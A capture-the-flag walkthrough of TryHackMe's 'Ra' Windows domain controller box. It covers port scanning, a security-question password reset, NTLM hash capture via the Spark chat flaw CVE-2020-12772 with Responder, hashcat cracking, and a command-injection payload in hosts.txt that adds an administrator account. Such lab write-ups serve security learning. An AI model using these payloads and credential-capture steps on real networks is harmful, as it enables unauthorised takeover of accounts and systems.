Box link:
https://tryhackme.com/room/ra

This box is rated hard difficulty on THM. It involves us using information gathered to reset a password, capturing a user's hash with a lesser known exploit, and uploading a malicious file to add a new account with Administrator privileges.

_You have found WindCorp's internal network and their Domain Controller. Can you pwn their network?_

## Scanning & Enumeration
This box starts with us already within Windcorp's internal network, as always I'll begin with an Nmap scan on the given IP to find running services.

```
$ sudo nmap -sV -sC 10.65.186.11 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-17 17:23 CST
Nmap scan report for 10.65.186.11
Host is up (0.045s latency).
Not shown: 978 filtered tcp ports (no-response)
PORT     STATE SERVICE                VERSION
53/tcp   open  domain                 Simple DNS Plus
80/tcp   open  http                   Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Windcorp.
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec           Microsoft Windows Kerberos (server time: 2026-01-17 23:23:45Z)
135/tcp  open  msrpc                  Microsoft Windows RPC
139/tcp  open  netbios-ssn            Microsoft Windows netbios-ssn
389/tcp  open  ldap                   Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http             Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
2179/tcp open  vmrdp?
3268/tcp open  ldap                   Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
3389/tcp open  ms-wbt-server          Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WINDCORP
|   NetBIOS_Domain_Name: WINDCORP
|   NetBIOS_Computer_Name: FIRE
|   DNS_Domain_Name: windcorp.thm
|   DNS_Computer_Name: Fire.windcorp.thm
|   DNS_Tree_Name: windcorp.thm
|   Product_Version: 10.0.17763
|_  System_Time: 2026-01-17T23:24:10+00:00
|_ssl-date: 2026-01-17T23:24:49+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=Fire.windcorp.thm
| Not valid before: 2026-01-16T23:17:08
|_Not valid after:  2026-07-18T23:17:08
5222/tcp open  jabber                 Ignite Realtime Openfire Jabber server 3.10.0 or later
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Not valid before: 2020-05-01T08:39:00
|_Not valid after:  2025-04-30T08:39:00
|_ssl-date: 2026-01-17T23:24:50+00:00; -1s from scanner time.
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     stream_id: 7y4cen9osj
|     xmpp: 
|       version: 1.0
|     errors: 
|       invalid-namespace
|       (timeout)
|     features: 
|     auth_mechanisms: 
|     compression_methods: 
|_    capabilities: 
5269/tcp open  xmpp                   Wildfire XMPP Client
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     unknown: 
|     xmpp: 
|     errors: 
|       (timeout)
|     features: 
|     auth_mechanisms: 
|     compression_methods: 
|_    capabilities: 
5985/tcp open  http                   Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7070/tcp open  http                   Jetty 9.4.18.v20190429
|_http-server-header: Jetty(9.4.18.v20190429)
|_http-title: Openfire HTTP Binding Service
7443/tcp open  ssl/http               Jetty 9.4.18.v20190429
|_http-server-header: Jetty(9.4.18.v20190429)
|_http-title: Openfire HTTP Binding Service
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Not valid before: 2020-05-01T08:39:00
|_Not valid after:  2025-04-30T08:39:00
7777/tcp open  socks5                 (No authentication; connection not allowed by ruleset)
| socks-auth-info: 
|_  No authentication
9090/tcp open  hadoop-datanode        Apache Hadoop
| hadoop-datanode-info: 
|_  Logs: jive-ibtn jive-btn-gradient
|_http-title: Site doesn't have a title (text/html).
| hadoop-tasktracker-info: 
|_  Logs: jive-ibtn jive-btn-gradient
9091/tcp open  ssl/hadoop-tasktracker Apache Hadoop
| hadoop-datanode-info: 
|_  Logs: jive-ibtn jive-btn-gradient
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Not valid before: 2020-05-01T08:39:00
|_Not valid after:  2025-04-30T08:39:00
| hadoop-tasktracker-info: 
|_  Logs: jive-ibtn jive-btn-gradient
|_http-title: Site doesn't have a title (text/html).
Service Info: Host: FIRE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-01-17T23:24:13
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.17 seconds
```

Looks to be a Windows machine with Active Directory components, the scan leaks their FQDN of `fire.windcorp.thm` and another domain name of `windcorp.thm`. Let's add those to our `/etc/hosts` file and check them out.

The main things I'll focus on are HTTP, SMB, and RDP as they will be the most beneficial. I run a dirsearch in the background to save on time and start enumerating webpages.



Those all redirected to a 403 Forbidden page.

Checking the landing page on port 80 shows a typical static webpage for the organization. Scrolling down discloses a bunch of names for the IT dept as well as their emails. I copy/paste the source code into a file and use `awk -F'id=|"' '{print $3}' input.txt > users.txt` to extract the addresses.



Taking some more time to look around shows that we can reset an account password if we answer a security question. One of the photos under the "Employees in focus" tab has a photo with her dog, checking the image's source name gives us the dog's name. I should also note that the name structures employees as first name + two letters of the last name, here it is `img/lilyleAndSparky.jpg` which may be the company's username structure.



## Exploitation
Let's try and reset her password using this info. Supplying lilyle as the username and Sparky as the answer for the pet security question resets her password to `ChangeMe#1234`.

We can use this to authenticate on SMB and enumerate shares using netexec.



I use this to read the 'Users' share which is good for a user list for the system but nothing else of note, at least that we have access to. Next, I go to the 'Shared' share where I find the first flag as well as some files named `spark_2.8.3*` pertaining to Ignite (a real-time instant messaging platform). 



We can see that Ignite is running on port 5222 and now that we have the version, let's look for any known exploits. Here are my sources:

[CVE](https://www.cvedetails.com/cve/CVE-2020-12772/)

[PoC Exploit](https://github.com/theart42/cves/blob/master/cve-2020-12772/CVE-2020-12772.md)

We can include our IP as an image source inside of a specially crafted message to make another user try to verify to us and capture the NTLM hash using responder. If we look at the website under the IT dept list, only one user is green (meaning they're online) so we can send a message to that account. Let's try it out.

_Note: This CVE was actually found by the creator(s) of this box and included it within the challenge which is really cool!_

In order to use IgniteRealtime Spark we must download the client which is conveniently in the same SMB share we got the flag in. I couldn't get Kali to recognize JRE 8 as a valid dependency for the life of me so I switched to the Attack Box for this step.



Trying to login prompted a certificate error but we can change our settings to accept all certs and successfully login. From here we setup a responder listener using `sudo responder -I tun0` and send a message that includes `` 



Now that we have the hash, we can use a pass-the-hash attack to login via evil-winrm or try and crack the hash for ease of use later. I'll do the latter.

```
$ hashcat -m 5600 buse.hash /opt/SecLists/rockyou.txt --force
...
...
...
BUSE::WINDCORP:23d4897b46a0b4ab:0e5fe47f8629bfce266634fa7f24e10a:0101000000000000df33451fbba4d601cb338fb772edc80f000000000200060053004d0042000100160053004d0042002d0054004f004f004c004b00490054000400120073006d0062002e006c006f00630061006c000300280073006500720076006500720032003000300033002e0073006d0062002e006c006f00630061006c000500120073006d0062002e006c006f00630061006c000800300030000000000000000100000000200000b7eab7302982bcaa806ff469fd9b218465d4a96dc39a0ae015d388a8578ed7a00a00100000000000000000000000000000000000090000000000000000000000:REDACTED
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: NetNTLMv2
Hash.Target......: BUSE::WINDCORP:23d4897b46a0b4ab:0e5fe47f8629bfce266...000000
Time.Started.....: Sat Oct 17 21:26:59 2020 (5 secs)
Time.Estimated...: Sat Oct 17 21:27:04 2020 (0 secs)
Guess.Base.......: File (/opt/SecLists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   549.7 kH/s (2.26ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 2959360/14344385 (20.63%)
Rejected.........: 0/2959360 (0.00%)
Restore.Point....: 2957312/14344385 (20.62%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: v10014318 -> uyab_cakep

Started: Sat Jan 17 21:26:18 2026
Stopped: Sat Jan 17 21:27:06 2026
```

## Initial Foothold
I try to RDP onto the machine with this password but they don't have access to it, so I proceed with evil-winrm instead.



Here we can grab the second flag under their Desktop folder and start looking for privilege escalation to Administrator. There's nothing else in the home, however I do find a non-standard directory on the `C:\` drive which holds scripts.


This holds a PowerShell script I'll describe shortly and a log.txt file which displays the last date & time the script has ran. In short, this script checks a list of hosts and pings them, if they do not respond, it stores them in another list and emails the owner of such an occasion.

So how do we exploit this? First I check who owns the script and find that the hosts.txt file is located under the 'Users' share we found earlier.



Since we're apart of the Account Operators group, we're able to reset anyone's password. Let's do this for Brittany's account using: `net user brittanycr Password123!`.



## Privilege Escalation
We actually don't have WinRM access on this account, but we're able to enumerate SMB shares which allows us to replace the hosts.txt with our malicious one. I'll replace the original file with one that adds a new account with Administrator privileges so we can login whenever.

This was my payload:

```
;net user cbev Password123! /add;net localgroup Administrators cbev /add
```



Finally, I use evil-winrm to login and grab the third flag under `C:\Users\Administrator`.



That completes the box, I hope this was helpful to anyone following along or stuck and happy hacking!
